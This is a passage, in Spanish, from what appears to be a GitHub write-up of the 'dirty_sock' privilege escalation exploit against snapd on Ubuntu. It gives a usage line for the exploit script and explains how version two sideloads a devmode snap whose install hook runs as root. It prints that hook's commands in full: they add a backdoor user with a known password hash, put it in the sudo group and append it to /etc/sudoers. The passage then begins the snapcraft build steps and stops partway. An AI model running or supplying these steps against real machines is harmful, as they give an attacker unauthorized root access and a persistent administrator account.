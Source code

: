 ```
$ dirty_sockv1.py -u you@email.com -k id_rsa
```

Esto es bastante confiable y parece seguro de ejecutar. Probablemente pueda dejar de leer aquí y obtener root.

¿Seguir leyendo? Bueno, el requisito de una conexión a Internet y un servicio SSH me molestaba, y quería ver si podía explotar en entornos más restringidos. Esto nos lleva a ...

## Versión dos

En su lugar, [dirty_sockv2](https://github.com/initstring/dirty_sock/blob/master/dirty_sockv2.py) usa la API 'POST / v2 / snaps' para descargar un Snap que contiene un script bash que agregará un usuario local. Esto funciona en sistemas que no tienen el servicio SSH en ejecución. También funciona en versiones más recientes de Ubuntu sin conexión a Internet. SIN EMBARGO, la carga lateral requiere que algunas piezas de resorte estén allí. Si no están allí, este exploit puede desencadenar una actualización del servicio snapd. Mis pruebas muestran que esto seguirá funcionando, pero solo funcionará UNA VEZ en este escenario.

Las instantáneas se ejecutan en entornos aislados y requieren firmas digitales que coincidan con las claves públicas en las que las máquinas ya confían. Sin embargo, es posible reducir estas restricciones indicando que se está desarrollando un complemento (llamado "devmode"). Esto le dará acceso instantáneo al sistema operativo host como lo haría cualquier otra aplicación.

Además, las instantáneas tienen algo llamado "ganchos". Uno de esos ganchos, el "gancho de instalación" se ejecuta en el momento de la instalación instantánea y puede ser un simple script de shell. Si el complemento está configurado en "devmode", este enlace se ejecutará en el contexto de root.

Creé un complemento desde cero que está esencialmente vacío y no tiene funcionalidad. Sin embargo, lo que sí tiene es un script bash que se ejecuta en el momento de la instalación.

_Nota para mayor claridad: esta versión del exploit no se esconde dentro de un snap malicioso. En su lugar, utiliza un complemento malicioso como mecanismo de entrega para la carga útil de creación del usuario. Esto es posible debido al mismo error uid = 0 que la versión 1_

Ese script de bash ejecuta los siguientes comandos:

```
useradd dirty_sock -m -p '$6$sWZcW1t25pfUdBuX$jWjEZQF2zFSfyGy9LbvG3vFzzHRjXfBYK0SOGfMD1sLyaS97AwnJUs7gDCY.fg19Ns3JwRdDhOcEmDpBVlF9m.' -s /bin/bash
usermod -aG sudo dirty_sock
echo "dirty_sock    ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

Esa cadena encriptada es simplemente el texto `dirty_sock`creado con la `crypt.crypt()`función de Python .

Los siguientes comandos muestran el proceso de creación de este complemento en detalle. Todo esto se hace desde una máquina de desarrollo, no desde el objetivo. Una vez que se crea el complemento, se convierte a texto base64 para ser incluido en el exploit completo de Python.

```sh
# Install necessary tools
sudo apt install snapcraft -y

# Make an empty directory to work with
cd /tmp
mkdir dirty_snap
cd dirty_snap

# Initialize the directory as a snap project
snapcraft init

# Set up the install hook
mkdir snap/hooks
touch snap/hooks/install
chmod a+x snap/hooks/install

```